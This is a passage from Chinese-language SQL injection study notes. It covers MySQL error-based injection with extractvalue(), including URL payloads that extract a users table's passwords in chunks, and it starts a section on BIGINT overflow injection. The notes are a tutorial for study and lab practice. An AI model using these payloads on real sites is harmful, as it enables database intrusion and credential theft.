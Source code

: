 > mysql> SELECT * FROM users WHERE id='0' and extractvalue(0x0a,concat(0x0a,(select group_concat(password) from users)));
> ERROR 1105 (HY000): XPATH syntax error: ' Dumb,I-kill-you,p@ssword,crappy'
> ```
>
> 为了获取到完整的信息，我们对字符串进行截取，分段获取每部分，最终拼接到一起：
>
> - `left(列名,长度)`与`right(列名,长度)`
>
>   ```sql
>   ?id=1'^extractvalue(1,concat(0x7e,(select(left(password,30))from(表名))))%23
>   
>   ?id=1'^extractvalue(1,concat(0x7e,(select(right(password,30))from(表名))))%23
>   ```
>
> - `substring()`
>
>   只能使用`substring()`、`substr()`、`left()`、`right()`、`regexp()`等函数分批次获取：？？？？？？？？？？TODO：？？？
>
>   ```
>                   
>   ```
>
>   

> 注意：当且仅当`ExtractValue()`与`UpdateXML()`的返回值被当作布尔表达式应用于`WHERE`子句时，XPath表达式才会被解析到最终形态：
>
> ```sql
> // extractvalue()作为Select子句的列名时，不会被处理
> mysql> SELECT EXTRACTVALUE("anything",concat(~,(select database())));
> ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '(select database())))' at line 1
> ```

### §3.1.3 大数溢出注入

> 注意：溢出注入依赖于特定的MySQL版本——
>
> - MySQL < 5.5，整形溢出不会报错，本方法无效
> - 5.5.5 < MySQL < 5.5.47，整形溢出会报错，能够执行并返回payload，本方法生效
> - MySQL > 5.5.53，整形溢出会报错，但不会执行并返回payload，本方法失效

MySQL默认使用的整数类型是无符号型`BIGINT`，占用8个字节，最大值为$2^{64}-1=18446744073709551615$。

```sql
mysql> select 18446744073709551615;
+----------------------+
| 18446744073709551615 |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.00 sec)

mysql> select 18446744073709551616;
+----------------------+
| 18446744073709551616 |
+----------------------+
| 18446744073709551616 |
+----------------------+
1 row in set (0.00 sec)

mysql> select 18446744073709551615 + 1;
    ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '(18446744073709551615 + 1)'
```
